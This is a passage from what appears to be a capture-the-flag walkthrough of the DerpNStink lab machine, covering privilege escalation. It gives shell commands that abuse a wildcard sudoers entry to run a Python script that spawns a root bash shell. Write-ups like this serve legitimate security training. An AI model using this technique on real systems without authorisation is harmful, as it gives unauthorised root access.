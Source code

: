 ```

Thank you for using our product.

********************************************************************
```

I found the resolution at `https://pastebin.com/RzK9WfGw`.

![screenshot-6](/assets/images/posts/derpnstink-walkthrough/screenshot-6.png)

Unbeknownst to poor Mr. Derp and Uncle Stinky, this is in fact the answer to privilege escalation.

### Privilege Escalation

Assuming that `mrderp ALL=(ALL) /home/mrderp/binaries/derpy*` is in `/etc/sudoers`, we can take the following actions to gain `root` privileges.

```
$ mkdir -p /home/mrderp/binaries
$ echo -e '#!/usr/bin/env python\nimport os\nos.setuid(0)\nos.setgid(0)\nos.system("/bin/bash")' > /home/mrderp/binaries/derpy
$ chmod +x /home/mrderp/binaries/derpy
$ sudo /home/mrderp/binaries/derpy
```

And since we already knew the password to Mr. Derp's account.

![screenshot-7](/assets/images/posts/derpnstink-walkthrough/screenshot-7.png)
